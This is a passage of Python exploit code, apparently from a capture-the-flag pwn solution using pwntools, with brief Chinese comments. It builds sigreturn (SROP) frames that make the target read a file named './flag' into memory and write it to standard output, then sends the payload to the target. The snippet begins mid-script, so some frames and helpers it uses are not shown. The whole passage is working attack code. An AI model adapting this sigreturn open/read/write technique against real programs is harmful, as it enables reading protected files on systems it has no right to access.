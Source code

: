 ```python
sigFrame3.rax=0
sigFrame3.rdi=3
# 随便写的位置
sigFrame3.rsi=bss+0x400
sigFrame3.rdx=0x36
sigFrame3.rsp = bss+520
sigFrame3.rip=syscall

# write函数
sigFrame4=SigreturnFrame()
sigFrame4.rax=1
sigFrame4.rdi=1
# flag位置
sigFrame4.rsi=bss+0x400
sigFrame4.rdx=0x36
sigFrame4.rsp = bss+520
sigFrame4.rip=syscall
payload =b"./flag\x00".ljust(8,b"\x00")+ sigreturn_syscall + bytes(sigFrame2) +sigreturn_syscall+bytes(sigFrame3)+sigreturn_syscall+bytes(sigFrame4)
print("open+read的长度:",len(payload))
input("第二次输入")
sd(payload)
time.sleep(10)
ia()

```

